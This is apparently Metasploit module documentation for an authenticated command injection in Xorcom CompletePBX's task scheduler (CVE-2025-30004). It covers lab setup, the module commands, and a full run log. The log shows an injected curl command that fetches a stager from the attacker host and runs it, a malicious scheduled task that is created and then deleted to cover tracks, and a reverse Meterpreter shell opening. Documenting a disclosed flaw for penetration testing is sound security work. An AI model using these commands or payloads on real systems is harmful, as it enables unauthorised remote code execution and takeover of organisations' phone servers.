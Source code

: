 ## Vulnerable Application

This Metasploit module exploits an **Authenticated Command Injection** vulnerability in **Xorcom CompletePBX <= 5.2.35**.
The issue resides in the task scheduler functionality, where user-controlled input is improperly sanitized, allowing
arbitrary command execution with web server privileges.

Only the **superadmin** user (`admin`) has the necessary permissions to trigger this exploit.
Even when creating a new user with maximum privileges, the vulnerability does not work.

The vulnerability is identified as **CVE-2025-30004**.

### Setup

Download the ova file here: [](https://archive.org/details/completepbx-5-2-27-vuln)

## Verification Steps

1. Deploy a vulnerable instance of **Xorcom CompletePBX <= 5.2.35**.
2. Launch **Metasploit Framework**.
3. Use the module:
```
use exploit/linux/http/xorcom_completepbx_scheduler_rce
```
4. Set the **target host**:
```
set RHOSTS [TARGET_IP]
```
5. Set authentication credentials:
```
set USERNAME [VALID_ADMIN_USERNAME]
set PASSWORD [VALID_ADMIN_PASSWORD]
```
6. Configure the payload:
```
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
set LHOST [ATTACKER_IP]
set LPORT [LISTENER_PORT]
```
7. Execute the module:
```
run
```
8. If successful, a **Meterpreter session** will be opened on the target.

## Options

### USERNAME

Admin username for authentication.

### PASSWORD

Admin password for authentication.

## Scenarios

### Successful Exploitation Against a Vulnerable CompletePBX Instance

**Setup**:

- **Target**: Xorcom CompletePBX <= 5.2.35
- **Attacker**: Metasploit Framework instance

**Steps**:

```bash
msf6 exploit(linux/http/xorcom_completepbx_scheduler) > run http://192.168.1.32/
[*] Command to run on remote host: curl -so ./HEuUpqtYDav http://192.168.1.36:8080/LoPlnjEpeOexZNVppn6cAA;chmod +x ./HEuUpqtYDav;./HEuUpqtYDav&
[*] Fetch handler listening on 192.168.1.36:8080
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if the target is running CompletePBX...
[+] Detected CompletePBX on 192.168.1.32:80
[+] The target appears to be vulnerable.
[*] Attempting authentication with username: admin
[+] Authentication successful! Session ID: sid=697e43b483efc1ac316461cde1fbb5d470abc3b4
[*] Creating malicious scheduled task with description: Possimus quibusdam assumenda minima.
[+] Malicious task successfully created.
[*] Retrieving latest task ID for description: Possimus quibusdam assumenda minima....
[+] Found task with ID: 18
[*] Executing malicious task ID 18...
[*] Client 192.168.1.32 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.32 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.32
[+] Task executed successfully!
[*] Sending delete request (mode=delete) for task ID 18...
[*] Sending delete request (mode=deleteConfirmed) for task ID 18...
[+] Task 18 deleted successfully!
[*] Meterpreter session 6 opened (192.168.1.36:4444 -> 192.168.1.32:40800) at 2025-07-16 21:11:31 +0200

meterpreter > sysinfo 
Computer     : localhost.localdomain
OS           : Debian 12.5 (Linux 6.1.0-20-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Impact

- This vulnerability grants **remote code execution** capabilities.
- Attackers can execute arbitrary commands as the **web server user**, potentially leading to full system compromise.
- Exploitation provides a **Meterpreter session** for post-exploitation activities.

This module is designed to **demonstrate and automate** the exploitation of this issue using the Metasploit framework.
